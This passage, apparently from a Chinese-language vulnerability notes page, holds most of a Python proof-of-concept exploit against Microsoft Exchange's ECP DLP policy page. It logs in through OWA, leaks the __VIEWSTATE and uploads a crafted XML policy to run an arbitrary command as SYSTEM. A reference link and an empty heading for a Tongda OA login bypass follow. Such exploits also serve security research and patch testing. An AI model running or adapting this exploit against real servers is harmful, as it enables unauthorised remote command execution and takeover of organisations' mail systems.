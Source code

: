 ```angular2
        'ctl00$ResultPanePlaceHolder$contentContainer$name': (None, random_string()),
        'ctl00$ResultPanePlaceHolder$contentContainer$upldCtrl': ("dlprce.xml", get_xml(cmd)),
    }
    r = s.post("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, files=f, verify=False)
    assert r.status_code == 200, "(-) failed to trigger rce!"

def leak_viewstate(t, s):
    r = s.get("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, verify=False)
    match = re.search("<input type=\"hidden\" name=\"__VIEWSTATE\" id=\"__VIEWSTATE\" value=\"(.*)\" />", r.text)
    assert match != None, "(-) couldn't leak the __viewstate!"
    return match.group(1)
    
def log_in(t, usr, pwd):
    s = requests.Session()
    d = {
        "destination" : "https://%s/owa" % t,
        "flags" : "",
        "username" : usr,
        "password" : pwd
    }
    s.post("https://%s/owa/auth.owa" % t, data=d, verify=False)
    assert s.cookies.get(name='X-OWA-CANARY') != None, "(-) couldn't leak the csrf canary!"
    return s

def main(t, usr, pwd, cmd):
    s = log_in(t, usr, pwd)
    print("(+) logged in as %s" % usr)
    vs = leak_viewstate(t, s)
    print("(+) found the __viewstate: %s" % vs)
    trigger_rce(t, s, vs, cmd)
    print("(+) executed %s as SYSTEM!" % cmd)

if __name__ == '__main__':
    if len(sys.argv) != 4:
        print("(+) usage: %s <target> <user:pass> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.75.142 harrym@exchangedemo.com:user123### mspaint" % sys.argv[0])
        sys.exit(-1)
    trgt = sys.argv[1]
    assert ":" in sys.argv[2], "(-) you need a user and password!"
    usr = sys.argv[2].split(":")[0]
    pwd = sys.argv[2].split(":")[1]
    cmd = sys.argv[3]
    main(trgt, usr, pwd, cmd)
```

# 20200915

> 参考链接
> https://mp.weixin.qq.com/s/nObHoQWes9f__NoBJaY0qQ
### 通达OA任意用户登录
